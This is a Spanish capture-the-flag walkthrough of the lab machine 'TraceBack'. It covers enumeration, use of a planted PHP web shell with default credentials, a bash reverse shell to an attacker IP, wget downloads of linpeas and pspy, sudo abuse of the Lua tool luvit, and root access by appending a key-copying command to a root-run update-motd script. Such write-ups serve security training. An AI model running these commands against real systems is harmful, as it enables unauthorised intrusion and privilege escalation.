




# TraceBack

`Traceback` es una máquina de dificultad fácil que cuenta con un servidor web Apache. Se puede acceder a un shell web PHP cargado por un hacker y se puede utilizar para obtener la ejecución de comandos en el contexto del usuario `webadmin`. Este usuario tiene el privilegio de ejecutar una herramienta llamada `luvit`, que ejecuta código Lua como el usuario `sysadmin`. Finalmente, el usuario Sysadmin tiene permisos de escritura en el archivo `update-motd`. Este archivo se ejecuta como root cada vez que alguien se conecta a la máquina a través de SSH. Esto se utiliza para escalar privilegios a root.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con `nmap` para ver los puertos que están expuestos en la máquina **`TraceBack`**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.181 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-06 18:01 CET
Initiating SYN Stealth Scan at 18:01
Scanning 10.10.10.181 [65535 ports]
Discovered open port 80/tcp on 10.10.10.181
Discovered open port 22/tcp on 10.10.10.181
Completed SYN Stealth Scan at 18:02, 28.76s elapsed (65535 total ports)
Nmap scan report for 10.10.10.181
Host is up, received user-set (0.073s latency).
Scanned at 2025-03-06 18:01:47 CET for 29s
Not shown: 65320 closed tcp ports (reset), 213 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 28.88 seconds
           Raw packets sent: 74435 (3.275MB) | Rcvd: 73661 (2.947MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.181
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Apache` y el servicio`SSH`.

```bash
❯ nmap -sCV -p22,80 10.10.10.181 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-06 18:03 CET
Nmap scan report for 10.10.10.181
Host is up (0.095s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   163.52 ms 10.10.14.1
2   163.71 ms 10.10.10.181

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.05 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Web Enumeration

Realizaremos a través de la herramienta de `whatweb` un reconocimiento inicial de las tecnologías que utiliza la aplicación web.

```bash
❯ whatweb -a 3 http://10.10.10.181/
http://10.10.10.181/ [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.181], Title[Help us]
```

Accederemos a http://10.10.10.181 y nos encontramos con la siguiente página web. Al parecer la página web ha sido hackeada por un atacante. Por otro lado, indica el atacante que ha dejado un `backdoor` accesible para toda la red.

<figure><figcaption></figcaption></figure>

Realizamos una enumeración de archivos `PHP` pero no logramos encontrar nada en la aplicación web.

```bash
❯ feroxbuster -u http://10.10.10.181/ -t 200 -C 500,502,404 -x php
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.181/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, aspx]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       44l      151w     1113c http://10.10.10.181/
[####################] - 73s    90006/90006   0s      found:1       errors:144    
[####################] - 73s    90000/90000   1235/s  http://10.10.10.181/     
```

## Initial Foothold

### Searching for a web shell uploaded by the attacker

Buscamos en Internet sobre las `web shells` más famosas para poder hacernos un listado del nombre de dichas `web shells`. Nos encontramos con el siguiente repositorio de GitHub el cual contiene diferentes nombres de `web shells`.

Nos copiaremos el contenido de las diferentes `web shells`que aparecen en el repositorio.

<figure><figcaption></figcaption></figure>



<figure><figcaption></figcaption></figure>

Trataremos el contenido que hemos copiado del repositorio de GitHub para solamente quedarnos con los nombres de las `web shells`y almacenarlo en un archivo llamado `webshells.txt`.

```bash
❯ cat webshells.txt
Name 	Language 	Availability
shell.php 	Find Here! 	PHP
shell.asp 	Find Here! 	ASP
shell.jsp 	Find Here! 	JSP
Language-specific Web Shells
PHP
Name 	Availability
alfav3-encoded.php 	Find Here!
alfav4.1-decoded.php 	Find Here!
alfav4.1-encoded.php 	Find Here!
andela.php 	Find Here!
bloodsecv4.php 	Find Here!
by.php 	Find Here!
c99ud.php 	Find Here!
cmd.php 	Find Here!
configkillerionkros.php 	Find Here!
mini.php 	Find Here!
obfuscated-punknopass.php 	Find Here!
punk-nopass.php 	Find Here!
punkholic.php 	Find Here!
r57.php 	Find Here!
smevk.php 	Find Here!
TwemlowsWebShell.php 	Find Here!
wso2.8.5.php 	Find Here!
ASP
Name 	Availability
pouya.asp 	Find Here!
JSP
Name 	Availability
shell.jsp 	Find Here!
❯ cat webshells.txt | awk '{print $1}' | grep -vE 'Name|Language|PHP|ASP|JSP'
shell.php
shell.asp
shell.jsp
alfav3-encoded.php
alfav4.1-decoded.php
alfav4.1-encoded.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
TwemlowsWebShell.php
wso2.8.5.php
pouya.asp
shell.jsp
❯ cat webshells.txt | awk '{print $1}' | grep -vE 'Name|Language|PHP|ASP|JSP' | sponge webshells.txt
```

Una vez tengamos un listado de las `web shells` más conocidas, probaremos de realizar una enumeración con `gobuster` para ver si logramos encontrar la `web shell`subida en la página web.

En el resultado obtenido, logramos encontrar una `web shell` llamada `smevk.php`.

```bash
❯ gobuster dir -u http://10.10.10.181/ -w webshells.txt -t 50 -b 503,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.181/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                webshells.txt
[+] Negative Status codes:   503,404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/smevk.php            (Status: 200) [Size: 1261]
Progress: 22 / 23 (95.65%)
===============================================================
Finished
===============================================================
```

### Using SmEvK\_PathAn Shell to get a Reverse Shell

Al acceder a http://10.10.10.181/smevk.php nos encontramos con la `web shell`que el atacante subió a la aplicación web. Al acceder se nos requiere ingresar credenciales de acceso. Investigando más a fondo sobre la `web shell` nos encontramos con el repositorio en el cual nos indican que las credenciales por defecto son `admin/admin`.



<figure><figcaption></figcaption></figure>

Finalmente logramos obtener acceso a la `web shell` en la cual nos permite realizar diferentes opciones.

* Ejecutar comandos
* Crear directorios
* Mover directorios
* Leer archivos
* Subir archivos
* etc

<figure><figcaption></figcaption></figure>

Probamos de utilizar el apartado de `Execute` para verificar si podemos lograr ejecutar comandos en el equipo víctima. En nuestro primer intento, al ejecutar el comando `whoami` se nos muestra el resultado correctamente, por lo tanto, logramos obtener un `RCE` a través de esta `web shell`.

<figure><figcaption></figcaption></figure>

El siguiente paso será lograr obtener acceso remoto al sistema, para ello nos pondremos en escucha con `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos en la `web shell` el siguiente comando que es la sintaxis de la típica Reverse Shell.

```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/443 0>&1'
```

<figure><figcaption></figcaption></figure>

Verificamos que finalmente logramos obtener acceso al sistema como el usuario `webadmin`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.181] 57626
bash: cannot set terminal process group (694): Inappropriate ioctl for device
bash: no job control in this shell
webadmin@traceback:/var/www/html$ 
```

Al obtener la Reverse Shell, realizaremos el tratamiento de la terminal para disponer de una TTY totalmente interactiva.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.181] 57626
bash: cannot set terminal process group (694): Inappropriate ioctl for device
bash: no job control in this shell
webadmin@traceback:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
webadmin@traceback:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
webadmin@traceback:/var/www/html$ export TERM=xterm
webadmin@traceback:/var/www/html$ export SHELL=bash
webadmin@traceback:/var/www/html$ stty rows 46 columns 230
```

## Initial Access

### Abusing sudoers privilege (Executing Lua Tool with another user)


```bash
webadmin@traceback:/home/webadmin$ ls
note.txt
webadmin@traceback:/home/webadmin$ cat note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```


```bash
webadmin@traceback:/home/webadmin$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```


```bash
❯ searchbins -b lua -f sudo

[+] Binary: lua

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/lua/#sudo]

	| sudo lua -e 'os.execute("/bin/sh")'
```


```bash
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/bash")'
sysadmin@traceback:/home/webadmin$ whoami
sysadmin
sysadmin@traceback:/home/webadmin$ cat /home/sysadmin/user.txt 
3f001c3c927acba6c4473813ed726a65
```

## Privilege Escalation

### linPEAS Enumeration

```bash
❯ ls -l linpeas.sh
.rwxrwxr-x kali kali 820 KB Wed Feb 19 08:41:54 2025  linpeas.sh
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


```bash
sysadmin@traceback:/tmp$ wget 10.10.14.2/linpeas.sh; chmod +x linpeas.sh; /tmp/linpeas.sh
```


<figure><figcaption></figcaption></figure>

### Pspy64 Monitorization


```bash
❯ ls -l pspy64
.rwxr-xr-x kali kali 3.0 MB Tue Jan 17 22:09:52 2023  pspy64

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


```bash
sysadmin@traceback:/tmp$ wget 10.10.14.2/pspy64; chmod +x pspy64; /tmp/pspy64
```


```bash
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done

...[snip]...

2025/03/06 09:30:37 CMD: UID=0     PID=1      | /sbin/init noprompt 
2025/03/06 09:31:01 CMD: UID=0     PID=16749  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2025/03/06 09:31:01 CMD: UID=0     PID=16748  | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/ 
2025/03/06 09:31:01 CMD: UID=0     PID=16747  | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2025/03/06 09:31:01 CMD: UID=0     PID=16746  | /usr/sbin/CRON -f 
2025/03/06 09:31:01 CMD: UID=0     PID=16745  | /usr/sbin/CRON -f 
2025/03/06 09:31:01 CMD: UID=0     PID=16750  | sleep 30 
```


```bash
sysadmin@traceback:/tmp$ ps aux | grep root

...[snip]...

root      16745  0.0  0.0  58792  3116 ?        S    09:31   0:00 /usr/sbin/CRON -f
root      16749  0.0  0.0   4628   816 ?        Ss   09:31   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
root      16750  0.0  0.0   7468   740 ?        S    09:31   0:00 sleep 30
```

### Update-Motd Privilege Escalation <a href="#exploit-title" id="exploit-title"></a>

```bash
sysadmin@traceback:/etc/update-motd.d$ ls -l
total 24
-rwxrwxr-x 1 root sysadmin  981 Mar  6 09:33 00-header
-rwxrwxr-x 1 root sysadmin  982 Mar  6 09:33 10-help-text
-rwxrwxr-x 1 root sysadmin 4264 Mar  6 09:33 50-motd-news
-rwxrwxr-x 1 root sysadmin  604 Mar  6 09:33 80-esm
-rwxrwxr-x 1 root sysadmin  299 Mar  6 09:33 91-release-upgrade
sysadmin@traceback:/etc/update-motd.d$ cat 00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
```


```bash
❯ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): 
Created directory '/home/kali/.ssh'.
Enter passphrase for "/home/kali/.ssh/id_ed25519" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_ed25519
Your public key has been saved in /home/kali/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:Z0DWOMaXf3P9WX84gkJDv0VSjrNajbcCvnERY8ds6nk kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|       .oo o.    |
|       o* ==.    |
|       o.+*+*   .|
|        oo.@o o +|
|       .S.O+o. +=|
|       ..Bo+..o.+|
|        +.= E. ..|
|         + o     |
|        .        |
+----[SHA256]-----+
```


```bash
❯ cat /home/kali/.ssh/id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKu23HUcaRFAHVBfzy2IJTf+jwRyuzxSeg5KFVRuWNqZ kali@kali
```


```bash
sysadmin@traceback:/etc/update-motd.d$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKu23HUcaRFAHVBfzy2IJTf+jwRyuzxSeg5KFVRuWNqZ kali@kali' > /home/sysadmin/.ssh/authorized_keys
```


```bash
❯ ssh sysadmin@10.10.10.181
The authenticity of host '10.10.10.181 (10.10.10.181)' can't be established.
ED25519 key fingerprint is SHA256:t2eqwvH1bBfzEerEaGcY/lX/lrLq/rpBznQqxrTiVfM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.181' (ED25519) to the list of known hosts.
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 


Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ whoami
sysadmin
```


```bash
sysadmin@traceback:/etc/update-motd.d$ echo 'cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/' >> 00-header
```


```bash
❯ ssh sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Mar  6 09:38:03 2025 from 10.10.14.2
$ whoami
sysadmin
```


```bash
❯ ssh root@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Apr 26 02:23:35 2021
root@traceback:~# whoami
root
root@traceback:~# cat /root/root.txt 
a4dba9**************************
```
